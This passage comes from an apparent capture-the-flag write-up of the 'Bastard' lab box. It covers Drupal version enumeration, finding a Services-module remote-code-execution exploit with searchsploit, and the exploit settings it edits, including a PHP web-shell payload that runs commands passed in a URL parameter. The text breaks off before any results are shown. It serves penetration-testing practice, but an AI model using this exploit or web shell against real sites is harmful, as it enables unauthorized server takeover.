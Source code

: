 The Drupal version can be enumerated by browsing to 10.10.10.9/CHANGELOG.txt  

<figure>
  <img src="{{site.baseurl}}/img/BastardChangelog.png">
	<figcaption>
    <a href="{{site.baseurl}}/img/BastardChangelog.png" title="How to know the drupal version">How to know the drupal version</a>
  </figcaption>
</figure> 

We are going to use a very useful tool to search exploits of known vulnerabilities in information systems, this we will achieve with searchsploit.  

{% highlight zsh %}
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premiun/Bastard]─[root@Arthorias]─[0]─[2508]
╰─[:)] # searchsploit drupal
Drupal 7.x Module Services - Remote Code Execution  |  exploits/php/webapps/41564.php
{% endhighlight %}    

Our search yields several results, among them we managed to identify an exploit that when used successfully an attacker can execute remote code on the victim.  
I won’t go in depth on how this exploit works, but the [cliff-notes](https://www.ambionics.io/blog/drupal-services-module-rce) are that it attacks a REST endpoint created by the services extension. To exploit we just need to find out the name of the REST endpoint. Honestly, exploiting this is simply a case of reading the exploit and the attached write-up.    
We need to manually edit this exploit which is written in PHP.   
First install php-curl and we copy the exploit to our route.  

{% highlight shell %}
cp /usr/share/exploitdb/exploits/php/webapps/41564.php ./
apt-get install php-curl
{% endhighlight %}  

There are about 3 lines that need to be corrected before you can run the script.  
You will see that there is comment sign missing (#). You will have to enter the IP (host) as change the endpoint_path to “/rest” as well. If you are asking yourself what this /rest or endpoint_path does, you should read the exploit explanation in the following [link](https://www.ambionics.io/blog/drupal-services-module-rce). DIRB has found many subfolders and /Rest was one of them and is fitting into the scheme.  
The script of PHP should look like this:  

{% highlight php %}
$url = 'http://10.10.10.9/';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$file = [
    'filename' => 'Gerh.php', /* Indicamos el nombre de nuestro archivo a crear. */
    'data' => '<?php echo(system($_GET["cmd"])); ?>' /* Indicamos que el contenido que tendra el archivo anterior; El parametro CMD nos ayudara a ejecutar comandos sobre nuestro equipo victima */
];
{% endhighlight %}  

After the execution of the exploit, we are exported the following files:  
